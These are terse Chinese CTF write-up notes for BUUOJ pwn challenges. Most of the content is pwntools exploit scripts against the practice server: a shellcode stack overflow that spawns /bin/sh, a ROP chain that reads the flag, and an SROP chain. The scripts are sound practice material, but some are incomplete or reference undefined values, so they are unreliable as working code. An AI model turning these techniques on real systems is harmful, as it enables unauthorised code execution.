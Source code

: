 * ### [OGeek2019]babyrop

  略

* ### [OGeek2019]bookmanager

  略

* ### ez_pz_hackover_2016

  地址白给，跳shellcode

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn',20040)
  shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
  r.recvuntil("Yippie, lets crash:")
  fuck_addr = int(r.recvline().strip(), 16)
  r.recvuntil('>')
  payload = 'crashme\x00' + '\x90'*0x12 + p32(fuck_addr) + '\x90'*0x100 + shellcode
  r.sendline(payload)
  r.interactive()
  ```

* ### not_the_same_3dsctf_2016

  白给函数读flag

  ```
  from pwn import *
  r = remote('pwn.buuoj.cn',20007)
  context.log_level = 'debug'
  fuck = 0x80489a0
  flag = 0x80eca2d
  write = 0x806e270
  payload = 'a'*0x2d + p32(fuck)+p32(write)+p32(main)+p32(1)+p32(flag)+p32(100)
  r.sendline(payload)
  r.interactive()
  ```

* ###  ciscn_2019_s_3

  只有read和write

  有个叫gadgets的白给函数，返回15

  rax为15，对应的系统调用为__NR_rt_sigreturn 

  SROP

  找一波gadgets，调用write找个地方写/bin/sh，然后在那溢出跑execve("/bin/sh",0,0)

  ```python
  from pwn import *
  r = remote('pwn.buuoj.cn', 20154)
  context.arch = 'amd64'
  syscall_ret = 0x400517
  mov_rax_15 = 0x4004DA
  sigreturn = p64(mov_rax_15) + p64(syscall_ret)
  
  fuck = SigreturnFrame()
  fuck.rdi = 0
  fuck.rsi = 0x601000
  fuck.rdx = 1000
  fuck.rax = 0
  fuck.rsp = 0x601050
  fuck.rip = syscall_ret
  payload = 'a'*0x10 + sigreturn + str(fuck)
  r.sendline(payload)
  
  wdnmd = SigreturnFrame()
  ```
